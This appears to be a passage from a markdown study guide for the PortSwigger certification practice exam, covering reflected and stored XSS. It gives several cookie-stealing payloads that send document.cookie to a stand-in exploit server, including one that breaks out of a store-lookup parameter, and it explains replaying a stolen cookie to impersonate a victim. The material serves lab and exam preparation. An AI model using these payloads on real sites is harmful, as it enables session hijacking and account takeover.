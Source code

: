 ![(Deliver reflected xss to steal victim cookie.](images/xss1.png)  

>**NOTE:** `Deliver exploit to victim` few times if the active user do not send HTTP request to collaborator. Replace the current cookie value with the stolen cookie to impersonate the active user and move on to [Stage 2 of the Practice Exam](#blind-time-delay).  

[PortSwigger Practice Exam - Stage 1 - Foothold](https://portswigger.net/web-security/certification/takepracticeexam/index.html)  
  
### Stored XSS

>Use the following sample code to ***identify*** stored XSS. If stored input is redirecting victim that click on the links, it send request to exploit server.  

```HTML
<img src="https://EXPLOIT.net/img">
<script src="https://EXPLOIT.net/script"></script>
<video src="https://EXPLOIT.net/video"></video>
```  
  
>Below log entries show the requests made to the exploit server, and from the logs we can ***identify*** that `/img` and `/video` of the above tags were allowed on the application and made requests when accessed.  

![Identify-stored-xss](images/identify-stored-xss.png)  

>Cross site Scripting saved in Blog post comment. This Cookie Stealer payload then send the victim session cookie to the exploit server logs.  

```html
<img src="1" onerror="window.location='https://exploit.net/cookie='+document.cookie">
```  

>Product and Store lookup  

```html
?productId=1&storeId="></select><img src=x onerror=this.src='https://exploit.net/?'+document.cookie;>
```  

#### Stored XSS Blog Post  

>Stored XSS Blog post cookie stealer sending document cookie to exploit server.  

```JavaScript
<script>
document.write('<img src="https://exploit.net?cookieStealer='+document.cookie+'" />');
</script>
```  

>Below target has a stored XSS vulnerability in the blog comments function. Steal a victim user session cookie that views the comments after they are posted, and then use their cookie to do impersonation.  

![Stored XSS Blog post](images/stored-xss-blog-post.png)  

>**Fetch API** JavaScript Cookie Stealer payload in Blog post comment.  
